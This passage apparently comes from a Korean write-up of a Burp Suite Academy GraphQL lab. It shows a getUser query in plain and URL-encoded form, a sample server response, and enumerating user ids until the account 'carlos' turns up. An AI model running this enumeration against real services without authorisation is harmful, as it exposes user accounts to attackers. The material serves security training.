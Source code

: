 ## 유저 정보 얻어내기 

6. `getUser` 쿼리를 사용해서 사용자 정보를 얻어낸다. 

다음 쿼리에 변수를 직접입력해서 사용할 수 있다. 

```
query {
    getUser(id: Int!) {
        id
        username
    }
}
```

예를들면 다음과 같다.

```
query {
    getUser(id:1000) {
        id
        username
    }
}
```

위의 쿼리를 URL인코딩하면 다음과 같이 된다. 

`query%20%7B%0A%09getUser(id%3A1000)%20%7B%0A%09%09id%0A%09%09username%0A%09%7D%0A%7D`

7. 이 쿼리를 서버에 보내보면 존재하지 않는 유저인 경우에는 다음과 같이 null이 반환되는 것을 알 수 있다. 

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=aiDKVcE2de8RaMedcUp6YLzUYHh6xEMt; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 39

{
  "data": {
    "getUser": null
  }
}
```

8. userid를 1부터 시도해본다. 그러면 id가 3인 유저가 carlos인 것을 알 수 있다. 

![carlos유저 확인](/images/burp-academy-graphql-3-5.png)
